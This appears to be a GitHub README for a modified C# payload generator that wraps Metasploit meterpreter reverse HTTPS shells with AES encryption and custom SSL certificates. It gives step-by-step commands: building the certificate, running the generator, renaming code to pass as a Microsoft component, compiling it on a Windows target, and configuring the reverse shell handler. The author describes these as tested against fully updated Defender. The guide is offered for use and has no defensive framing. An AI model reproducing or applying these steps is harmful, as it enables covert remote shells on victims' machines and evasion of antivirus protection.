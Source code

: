 # Modified_CsharpMMNiceness
modified https://github.com/fullmetalcache/CsharpMMNiceness to support msf5 options.

Great code by fullmetalcache. I added options to use msf5 encrypt and use custom SSL certs in https payloads.

example:
python mod_nice.py -a x64 -P https -l 127.0.0.1 -p 443 -e aes256 -k test123 -ssl msfkey.pem -s

These are my testing steps, I tested both staged and stageless https on a fully patched Windows 10 running Defender real-time and cloud-based protections all fully updated.

1. Set up cert (obviously you can use other certs but I did not test that):
After installing Letsencrypt you need to combine 2 keys to use for the reverse https payload, Letsencrypt stores them in /etc/letsencrypt/live/<yourdomain>/
cat privkey.pem cert.pem >> msfkey.pem
 
2. run the python script:
python mod_nice.py -a x64 -P https -l <listener address> -p 443 -e aes256 -k test123 -ssl /path/msfkey.pem -s
 
3. The script outputs a cs template called mmniceness.cs. Find and replace all function names and variables, etc. I also renamed it to sound like some Microsoft kind of thing, like msvct.cs.
 
4. Move msvct.cs to the Windows target (or precompile but I didn’t test that). 
C:\Windows\Microsoft.NET\Framework64\<whatever version>\csc.exe /unsafe /platform:x64 /out:C:\Windows\Temp\test\msvct.exe C:\Windows\Temp\test\msvct.cs
 
5. set up the handler, staged= windows/x64/meterpreter/reverse_https, stageless= windows/x64/meterpreter_reverse_https
enable https options:
set HANDLERSSLCERT /path/msfkey.pem
set stagerverifysslcert true (don't need this on stageless)
